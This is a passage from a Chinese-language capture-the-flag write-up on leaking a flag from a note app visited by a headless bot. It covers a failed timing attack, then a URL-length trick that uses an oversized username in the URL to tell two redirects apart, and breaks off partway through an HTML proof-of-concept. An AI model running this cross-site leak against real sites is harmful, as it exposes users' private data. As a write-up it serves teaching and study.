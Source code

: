 ``` js
        await page.waitForNavigation({ waitUntil: "networkidle2" });
        await browser.close();
        browser = null;
    } catch (err) {
        console.log(err);
    } finally {
        if (browser) await browser.close();
    }
};
```

在訪問完我們提供的 URL 以後，bot 才去訪問 `/view` 頁面，因此這次我們沒辦法從瀏覽器上面去衡量時間，而是要從自己 local 去測量。如果前面講的想法沒錯，照理來說在我們 local 也可以測量出時間，server response time 會變慢。

但嘗試了大概三四個小時以後，發現行不通。

理由大概有兩點，第一點是 server 的處理速度太快，我測了一下發送 500 個請求給 localhost，大概 400ms 就處理完了，第二點是時間區間很難抓，很難掌握到「bot 訪問 /view」的那段時間。

總之呢，試了很久都沒辦法得到一個穩定的辦法，只好先放棄了。

而此時我把注意力轉移到了新增 note 時的這一段：

``` js
const newLen = totalLen + text.length;
if (newLen > 16384) {
    // case 1
    return reply.redirect(`/?message=Cannot add, please delete some notes first (${newLen} > 16384 chars)`);
}

userNotes.push(text);
userNotes.sort();
notes.set(req.cookies.id, userNotes);

// case2
reply.redirect("/?message=Note added successfully");
```

如果筆記長度超出 16384，會重新導向到 `/?message=Cannot add, please delete some notes first`，反之則導向至 `/?message=Note added successfully`，換言之，如果可以偵測出導向到的是哪一個，一樣可以利用類似的手法 leak 出 flag。

我有個想法是猜測瀏覽器對於網址長度應該會有限制，可以試著構造出一個超長的網址，導向到 `/?message=Cannot add, please delete some notes first` 時會超過限制，而導向到 `/?message=Note added successfully` 時則不會。

但問題是這邊我們沒辦法控制 path 的長度，那該怎麼讓網址變長？

我試了一下 username，例如說：`http://${'a'.repeat(1000000)}}:pwd@localhost:3000`，發現居然成功了！

細節可以看底下這個 PoC：

``` html
<!DOCTYPE html>
<html>
<body>
  <form id=f  method="POST" target="winForm">
    <input id=inp name="text" value="">
  </form>

  <script>
    fetch('/hang')
    win = window.open('about:blank', 'winForm')
    const TARGET = 'http://'+ 'a'.repeat(2097050)  + ':def@localhost:3000'
    f.action = TARGET + '/create'

    inp.value = 'a'.repeat(2)
    f.submit()

    let count = 0
```
